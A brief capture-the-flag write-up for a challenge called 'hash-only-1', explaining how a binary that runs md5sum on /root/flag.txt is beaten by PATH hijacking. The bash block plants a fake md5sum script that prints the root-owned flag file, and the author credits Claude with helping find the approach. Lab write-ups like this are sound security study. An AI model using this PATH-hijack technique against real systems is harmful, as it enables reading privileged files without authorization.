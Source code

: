## hash-only-1

I overcomplicated things again. I installed Ghidra to decompile the binary to see that it executes `/bin/bash -c 'md5sum /root/flag.txt'`.
While useful, my initial approach was to try and patch the binary (which doesn't work since we can't just edit the binary).

After debugging my approach with Claude, we found that a simple path manipulation was retrieve the flag. Basically, we pretend to be md5sum and get our malicious version executed instead.

```bash
echo '#!/bin/bash' > ~/md5sum
echo 'cat /root/flag.txt' >> ~/md5sum
chmod +x ~/md5sum

export PATH=~:$PATH

~/flaghasher
```

Thanks Claude.
